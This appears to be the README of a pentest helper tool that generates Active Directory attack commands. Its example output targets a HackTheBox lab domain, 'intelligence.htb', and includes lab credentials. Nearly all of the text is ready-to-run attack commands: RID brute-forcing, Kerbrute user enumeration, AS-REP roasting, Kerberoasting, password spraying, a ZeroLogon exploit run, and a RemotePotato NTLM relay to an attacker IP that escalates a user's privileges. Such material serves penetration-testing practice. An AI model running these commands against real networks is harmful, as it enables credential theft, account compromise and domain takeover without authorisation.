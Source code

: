 Converts hostname, ip, creds, and more into the most common commands used during innitial AD enumeration.
Example output: 

           (  )   /\   _                 (
            \ |  (  \ ( \.(               )            _____
          \  \ \  `  `   ) \             (  ___                 (  )   /\   _
       (_`    \+   . x   ( .\            \/   \          )      \ |  (  \ ( \.(               )            _____
      - .-               \+  ;          (     )        (  (     \  \ \  `  `   ) \             (  ___
           WELCOME TO      )  )        _)   ) _         )  )      (_`    \+   . x   ( .\            \/   \
         THE AD SYNTAX   (__/          \____/          (_(_()   - .-               \+  ;          (     )
               FILLER,    /             /               /                        )  )        _)   ) _
           SAVING YOU    (             (               /    made with love by bandors (__/          \____/
              TIME SINCE  2024

    
# RID brute
crackmapexec smb intelligence.htb -u anonymous -p '' --rid-brute 10000
impacket-lookupsid intelligence.htb/anonymous@10.10.10.248
netexec smb intelligence.htb -u Tiffany.Molina -p 'NewIntelligenceCorpUser9876' --rid-brute 10000

# With credentials
impacket-lookupsid intelligence.htb/Tiffany.Molina:'NewIntelligenceCorpUser9876'@intelligence.htb

# Kerbrute user enumeration
kerbrute userenum -d intelligence.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.248

# AS Rep Roasting
for user in $(cat users.txt); do /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.10.10.248 intelligence.htb/Tiffany.Molina | grep -v Impacket; done

# Kerberoasting
faketime -f +7h GetUserSPNs.py -target-domain intelligence.htb -usersfile users.txt -dc-ip dc01.intelligence.htb intelligence.htb/guest -no-pass
faketime -f +7h GetUserSPNs.py -request -dc-ip 10.10.10.248 intelligence.htb/Tiffany.Molina -save -outputfile GetUserSPNs.out
GetUserSPNs.py -no-preauth 'jjones' -usersfile 'users.txt' -dc-host 'dc01.intelligence.htb' 'intelligence.htb'/

# Password Spray
netexec smb 10.10.10.248 -u users.txt -p 'NewIntelligenceCorpUser9876' --continue-on-success

# LDAP Enumeration
ldapsearch -x -H ldap://10.10.10.248 -b "dc=intelligence,dc=htb" | grep 'userPrincipalName' | tr '@' ' ' | awk '{print $2}' > users.txt
~/go/bin/kerbrute userenum --dc dc01.intelligence.htb -d intelligence.htb users.txt

# ZeroLogon Check
sudo python ~/tools/CVE-2020-1472-master/cve-2020-1472-exploit.py dc01 10.10.10.248

# RemotePotato Check
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.10.10.248:9999
sudo impacket-ntlmrelayx -t ldap://10.10.10.248 --no-wcf-server --escalate-user normal_user
.\RemotePotato0.exe -m 2 -r 10.8.0.22 -x 10.8.0.22 -p 9999 -s 1

# Bloodhound Python
faketime -f +7h bloodhound-python -c ALL -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -d intelligence.htb -dc dc01.intelligence.htb -ns 10.10.10.248

